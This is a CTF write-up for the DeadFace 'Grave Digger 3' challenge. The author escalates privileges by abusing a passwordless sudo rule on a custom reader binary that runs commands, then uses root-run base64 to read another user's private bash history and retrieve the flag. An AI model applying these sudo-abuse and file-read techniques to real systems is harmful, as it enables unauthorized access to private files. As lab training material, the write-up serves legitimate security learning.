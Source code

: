 ```yaml
---
title: Grave Digger 3
tags: [DeadFace, ctf]
color: success 
description: Writeup for Grave Digger 3 from DeadFace CTF event.
---
```


# Writeup for Grave Digger 3

## Description

```text
There is one more flag that DEADFACE has hidden on d34th's machine. Somehow, you'll have to find a way to access d34th's files in his home directory. Submit the flag as flag{flag text}
```

Using the same creds from Grave Digger 1 and 2, we have access to ssh with `crypto_vamp` user. Basic check for escalating privilege shows we can use a binary called `reader` in `/opt` directory as user `lilith` without password.

```bash
crypto_vamp@c81ec1737490:~$ sudo -l
Matching Defaults entries for crypto_vamp on c81ec1737490:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User crypto_vamp may run the following commands on c81ec1737490:
    (lilith) NOPASSWD: /opt/reader
crypto_vamp@c81ec1737490:~$
```

Looking at the man page of the `reader` binary, we can see that we can actually use `-c` flag to execute commands. Using that, we can run commands as `lilith` user.

```bash
crypto_vamp@c81ec1737490:~$ man reader
man(8)                                                                               reader man page                                                                               man(8)

NAME
       reader - read files as lilith

SYNOPSIS
       reader [OPTIONS] [FILENAME]

DESCRIPTION
       reader is developed to help crypto_vamp and other new recruits read privileged files until their vetting process is complete.

OPTIONS
       -f, --file FILENAME
              Read the contents of FILENAME.

       -c, --command COMMAND
              Execute a command (for troubleshooting purposes ONLY).

       -h, --help
              View the help information.

       -v, --version
              View the version information.

       BUGS   No known bugs.

AUTHOR
       Lilith (bl0ody_mary@deadface.io)

1.3.1                                                                                  24 Sep 2022                                                                                 man(8)
crypto_vamp@c81ec1737490:~$
```

Checking for another basic `sudo -l` from the `c` flag, we can see that we can actually run `/usr/bin/base64` as `root` on the machine without password. There's another user called `spookyboi` whose `bash_history` doesn't seems to be empty. So using the given `base64` binary, let's read the history.

```bash
crypto_vamp@c81ec1737490:~$ sudo -u lilith /opt/reader -c "sudo -l"
1: Matching Defaults entries for lilith on c81ec1737490:
2:     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sb3: in\:/bin\:/snap/bin
4:
5: User lilith may run the following commands on c81ec1737490:
6:     (ALL) NOPASSWD: /usr/bin/base64
7:     (ALL) NOPASSWD: /usr/bin/gzip
8:     (ALL) NOPASSWD: /user/bin/gunzip
crypto_vamp@c81ec1737490:~$
```

```bash
crypto_vamp@c81ec1737490:~$ sudo -u lilith /opt/reader -c "ls -al /home/spookyboi"
1: total 48
2: drwxrwxr-x 1 spookyboi spookyboi 4096 Oct 13 22:50 .
3: drwxrwxr-x 1 root      root      4096 Oct 13 22:41 ..
4: -rw------- 1 spookyboi spookyboi  271 Oct 13 22:50 .bash_history
5: drwxrwxr-x 1 spookyboi spookyboi 4096 Oct 13 22:51 .keys
6: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Desktop
7: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Documents
8: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Downloads
9: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Music
10: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Pictures
11: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Public
12: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Templates
13: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Videos
crypto_vamp@c81ec1737490:~$ sudo -u lilith /opt/reader -c "sudo /usr/bin/base64 /home/spookyboi/.bash_history | base64 -d"
1: ls -l
2: cd ~
3: mkdir docs
4: rm -rf docs
5: wget https://pastebin.com/raw/XX2nkn3W > gravedigger3.txt
6: rm gravedigger3.txt
7: openssl genrsa -aes128 -out spookyboi-priv.pem 1024
8: openssl rsa -in spookyboi-priv.pem  -pubout > spookyboi-public.pem
9: rm spookyboi-public.pem
10: mv *.pem .keys/
crypto_vamp@c81ec1737490:~$
```

# Flag

```bash
» wget https://pastebin.com/raw/XX2nkn3W
--2022-10-17 17:42:07--  https://pastebin.com/raw/XX2nkn3W
Resolving pastebin.com (pastebin.com)... 172.67.34.170, 104.20.67.143, 104.20.68.143, ...
Connecting to pastebin.com (pastebin.com)|172.67.34.170|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘XX2nkn3W’

XX2nkn3W                                            [ <=>                                                                                                  ]      17  --.-KB/s    in 0s

2022-10-17 17:42:07 (3.42 MB/s) - ‘XX2nkn3W’ saved [17]

» cat XX2nkn3W
flag{b4d_h1sTOrY}
```

##### Author: <a href="https://twitter.com/avijneyam" target="_blank">Avijneyam</a>
